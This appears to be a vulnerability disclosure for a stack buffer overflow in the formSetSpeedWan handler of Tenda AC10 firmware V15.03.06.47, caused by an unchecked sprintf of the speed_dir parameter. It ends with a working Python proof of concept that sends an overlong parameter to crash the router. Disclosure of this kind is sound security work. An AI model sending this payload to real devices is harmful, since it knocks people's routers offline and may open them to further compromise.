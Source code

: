 

# Information

**Vendor of the products:**   Tenda

**Vendor's website:** [首页_腾达(Tenda)官方网站](https://www.tenda.com.cn/)

**Reported by:  **GuoHengyu(2183056014@qq.com)

**Affected products:** AC10 

**Affected firmware version:**  V15.03.06.47

**Firmware download address:** https://down.tendacn.com/uploadfile/AC10/US_AC10V1.0re_V15.03.06.47_multi_TDE.zip

# Overview

A buffer overflow vulnerability exists in the `formSetSpeedWan` function of the Tenda AC10 router. By sending a crafted HTTP request with a malicious `speed_dir` parameter, a remote attacker can trigger a stack overflow that leads to a segmentation fault. This may result in denial-of-service (DoS) or potentially allow further exploitation.



# Vulnerability details



![image-20250527203534943](3/image-20250527203534943.png)

There is a buffer overflow vulnerability in the `formSetSpeedWan` function of the Tenda AC10 firmware version V15.03.06.47.

![image-20250527203605025](3/image-20250527203605025.png)



The program does not perform proper boundary checks on the speed_dir parameter and uses the following code:
sprintf(ret_buf, "{\"errCode\":%d,\"speed_dir\":%s}", 1, speed_dir);
If a speed_dir parameter longer than 0x30 bytes is provided, it will overflow the target buffer ret_buf, potentially causing a segmentation fault. A remote attacker could exploit this issue to cause a denial of service or possibly achieve arbitrary code execution.

# POC

```python
import requests


url = "http://192.168.2.131/goform/SetSpeedWan"
params = {
    "speed_dir": "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
}
headers = {
    "Host": "192.168.2.131",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:138.0) Gecko/20100101 Firefox/138.0",
    "Accept": "text/plain, */*; q=0.01",
    "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
    "Accept-Encoding": "gzip, deflate, br",
    "X-Requested-With": "XMLHttpRequest",
    "Connection": "keep-alive",
    "Referer": "http://192.168.2.131/main.html",
    "Cookie": "password=jubmji; bLanguage=zh",
    "Priority": "u=0"
}

response = requests.get(url, params=params, headers=headers)
response = requests.get(url, params=params, headers=headers)
    
```

![image-20250527194554593](3/image-20250527194554593.png)

